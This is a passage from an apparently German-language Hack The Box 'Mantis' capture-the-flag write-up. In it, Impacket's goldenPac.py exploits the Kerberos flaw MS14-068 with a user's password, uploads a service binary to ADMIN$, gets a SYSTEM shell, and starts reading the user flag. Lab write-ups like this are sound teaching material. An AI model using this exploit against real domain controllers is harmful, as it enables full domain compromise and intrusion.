 Als nächstes können wir das Python Skript **goldenPac.py** von der Python Klassen Sammlung [Impacket](https://github.com/CoreSecurity/impacket) benutzen, um die kritische Kerberos Schwachstelle [MS14-068](https://docs.microsoft.com/de-de/security-updates/SecurityBulletins/2014/ms14-068) auszunutzen.

```shell
root@kali:~/impacket# goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file TBDMYhpQ.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service sust on mantis.htb.local.....
[*] Starting service sust.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


Jetzt können wir uns die User und die Root Flag abholen.

```shell
C:\Windows\system32>cd C:/users

C:\Users>dir
Volume in drive C has no label.
Volume Serial Number is 1A7A-6541

Directory of C:\Users

09/01/2017 09:19 AM <DIR> .
09/01/2017 09:19 AM <DIR> ..
09/01/2017 12:39 AM <DIR> Administrator
09/01/2017 08:02 AM <DIR> Classic .NET AppPool
09/01/2017 09:19 AM <DIR> james
09/01/2017 08:15 AM <DIR> MSSQL$SQLEXPRESS
07/13/2009 11:57 PM <DIR> Public
0 File(s) 0 bytes
7 Dir(s) 921,141,248 bytes free

C:\Users>cd james

C:\Users\james>cd Desktop

C:\Users\james\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 1A7A-6541

Directory of C:\Users\james\Desktop

09/01/2017 01:10 PM <DIR> .
09/01/2017 01:10 PM <DIR> ..
09/01/2017 09:19 AM 32 user.txt
1 File(s) 32 bytes
2 Dir(s) 921,141,248 bytes free

C:\Users\james\Desktop>more user.txt
```